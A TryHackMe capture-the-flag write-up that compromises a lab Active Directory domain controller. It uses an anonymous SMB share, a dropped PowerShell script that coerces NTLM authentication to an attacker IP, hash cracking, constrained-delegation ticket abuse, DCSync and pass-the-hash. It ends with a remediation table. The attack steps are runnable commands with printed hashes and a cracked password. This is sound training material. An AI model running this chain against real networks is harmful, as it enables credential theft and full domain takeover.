



# Proxy — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.64.187.114 | **Attacker IP:** 192.168.146.25

## Machine info



## Summary

**Proxy** is a Windows Active Directory box built around a single careless service account. An anonymous SMB share leaks an IT onboarding checklist describing an automated "file scanner" process, which turns out to execute scripts it finds rather than just inspecting them. Dropping a PowerShell script that forces an outbound SMB connection captures the service account's NetNTLMv2 hash, which cracks easily offline. BloodHound enumeration with the recovered credentials reveals that the service account has constrained delegation rights to the Domain Controller — abusing S4U2Self/S4U2Proxy together with the unprotected service-name field in the resulting ticket yields a ticket impersonating Administrator for LDAP, which is enough to DCSync the entire domain and take DC01 with pass-the-hash.

**Attack chain:** SMB null session → Leaked automation details → NTLM coercion via dropped script → Hash cracking → BloodHound (AllowedToDelegate) → Constrained delegation abuse (sname swap) → DCSync → Pass-the-Hash → Root

## 1. Reconnaissance

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.64.187.114

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ctf.local)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ctf.local)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
9389/tcp  open  mc-nmf        .NET Message Framing
49668-49824/tcp open msrpc    Microsoft Windows RPC

rdp-ntlm-info:
  NetBIOS_Domain_Name: CTF
  NetBIOS_Computer_Name: DC01
  DNS_Domain_Name: ctf.local
  DNS_Computer_Name: DC01.ctf.local
```

The port combination (88, 389, 445, 3268) confirms a Domain Controller for domain `ctf.local`, hostname `DC01`.

## 2. Username Enumeration

```
kerbrute userenum -d ctf.local --dc 10.64.187.114 xato-net-10-million-usernames.txt

[+] VALID USERNAME:       guest@ctf.local
[+] VALID USERNAME:       administrator@ctf.local
```

## 3. SMB Null Session & Credential Leak

```
smbclient -L //10.64.187.114/ -N

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
IT-Shared       Disk      IT Department Shared Resources
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
```

`IT-Shared` allows anonymous access:

```
smbclient //10.64.187.114/IT-Shared -N
smb: \> ls
  IT-Credentials-Backup.txt           A      406
  IT-Onboarding-Checklist.txt         A      676
  IT-Portal.html                      A     4887
smb: \> mget *
```

`IT-Credentials-Backup.txt` only contains disabled accounts from 2021/2022 — a dead end. The real find is `IT-Onboarding-Checklist.txt`:

```
Automated Services
------------------
  File Scanner (svc.scanner)
    Runs every 2 minutes. Enumerates IT-Shared for new files to process.
    Uses Shell enumeration to inspect file metadata and icons.

  Database Backup (svc.mssql)
    Handles nightly MSSQL backups. Member of Backup Operators.
```

`svc.scanner` automatically processes new files dropped into the share — a clear coercion opportunity.

## 4. NTLM Coercion & Hash Capture

`svc.scanner` turns out to execute/interpret dropped scripts rather than just inspecting their metadata:

```
shell.ps1:
Test-Path \\192.168.146.25\icons\icon.ico
```

```
sudo responder -I <interface>
```

```
smbclient //10.64.187.114/IT-Shared -N -c "put shell.ps1"
```

Within two minutes, Responder captured the service account's NetNTLMv2 hash:

```
[SMB] NTLMv2-SSP Client   : 10.64.187.114
[SMB] NTLMv2-SSP Username : CTF\svc.scanner
[SMB] NTLMv2-SSP Hash     : svc.scanner::CTF:3af63220ae9a8365:B9D121C5B05BCF8076C7FD97F9CCFF30:0101...
```

**Hash obtained:** `CTF\svc.scanner` NetNTLMv2-SSP

## 5. Cracking the Hash

```
hashcat -m 5600 svc.scanner.hash /usr/share/wordlists/rockyou.txt

SVC.SCANNER::CTF:3af63220ae9a8365:...:1summerlove!
```

**Credentials obtained:** `svc.scanner : 1summerlove!`

## 6. BloodHound Enumeration — Constrained Delegation

```
bloodhound-python -d ctf.local -u svc.scanner -p 1summerlove! -ns 10.64.187.114 -c all
```

With the collected data imported, `SVC.SCANNER@CTF.LOCAL` shows an `AllowedToDelegate` edge straight to `DC01.CTF.LOCAL` — constrained delegation configured on a service account that has no business holding it.



The allowed SPN is confirmed via LDAP:

```
ldapsearch -x -H ldap://10.64.187.114 -D "svc.scanner@ctf.local" -w '1summerlove!' -b "dc=ctf,dc=local" "(samAccountName=svc.scanner)" msDS-AllowedToDelegateTo

msDS-AllowedToDelegateTo: cifs/DC01
msDS-AllowedToDelegateTo: cifs/DC01.ctf.local
```

## 7. Exploiting Constrained Delegation

`svc.scanner` can only legitimately delegate to `cifs/DC01.ctf.local` — but the service name on the resulting ticket isn't cryptographically protected, so it can be rewritten after the KDC issues it. Using S4U2Self + S4U2Proxy to impersonate `Administrator`, then swapping the service name from `cifs` to `ldap`:

```
echo "10.64.187.114 DC01.ctf.local DC01 ctf.local" | sudo tee -a /etc/hosts

impacket-getST -spn 'cifs/DC01.ctf.local' -impersonate Administrator -altservice 'ldap' 'ctf.local/svc.scanner:1summerlove!' -dc-ip 10.64.187.114

[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from cifs/DC01.ctf.local@CTF.LOCAL to ldap/DC01.ctf.local@CTF.LOCAL
[*] Saving ticket in Administrator@ldap_DC01.ctf.local@CTF.LOCAL.ccache
```

**Ticket obtained:** service ticket for `Administrator` against `ldap/DC01.ctf.local`, saved in `Administrator@ldap_DC01.ctf.local@CTF.LOCAL.ccache`

## 8. DCSync & Domain Compromise

With a ticket for Administrator against the LDAP service, a DCSync pulls every credential in the domain directly from the DC:

```
export KRB5CCNAME=Administrator@ldap_DC01.ctf.local@CTF.LOCAL.ccache

impacket-secretsdump -k -no-pass -just-dc 'ctf.local/Administrator@DC01.ctf.local'

Administrator:500:aad3b435b51404eeaad3b435b51404ee:dd4592176bb3f58eea4e87a8f0eaf270:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bcebb2269753d50cfc594c78748f1e01:::
ctf.local\svc.scanner:1111:aad3b435b51404eeaad3b435b51404ee:dcb8cc599e5a5b1fb4dd83f94fea2660:::
ctf.local\svc.mssql:1112:aad3b435b51404eeaad3b435b51404ee:e58b1f56d99711bf4b14a9bf3a0e8820:::
DC01$:1008:aad3b435b51404eeaad3b435b51404ee:a41f71761792442de96ad7687efe336d:::
```

**NTLM hash obtained:** `Administrator : dd4592176bb3f58eea4e87a8f0eaf270`

With Administrator's NT hash in hand, a pass-the-hash shell on the DC confirms full domain compromise:

```
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:dd4592176bb3f58eea4e87a8f0eaf270 ctf.local/Administrator@10.64.187.114

C:\>whoami
ctf\administrator
```



**Flag:** `THM{S4U2S3lf_C0nstr41ned_D3l3g4t10n_2_DA}`

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Anonymous SMB access to `IT-Shared` | Disable anonymous/null session access to shares; require authentication for all file shares |
| `svc.scanner` executes/interprets dropped files instead of only inspecting metadata | Redesign the automation to never parse or execute file contents from an untrusted, writable share |
| `svc.scanner` configured with unconstrained-in-practice constrained delegation to `cifs/DC01` | Remove delegation from service accounts that don't require it; if delegation is required, scope it as tightly as possible and monitor for S4U2Proxy requests with mismatched service names |
| Weak service account password (`1summerlove!`) crackable from a single NetNTLMv2 capture | Enforce strong, randomly generated passwords (or gMSA) for service accounts, and use Managed Service Accounts to remove the password entirely |
| No detection on DCSync-capable replication requests from non-DC hosts | Monitor Event ID 4662 for `DS-Replication-Get-Changes`/`-All` requests originating from non-DC principals |
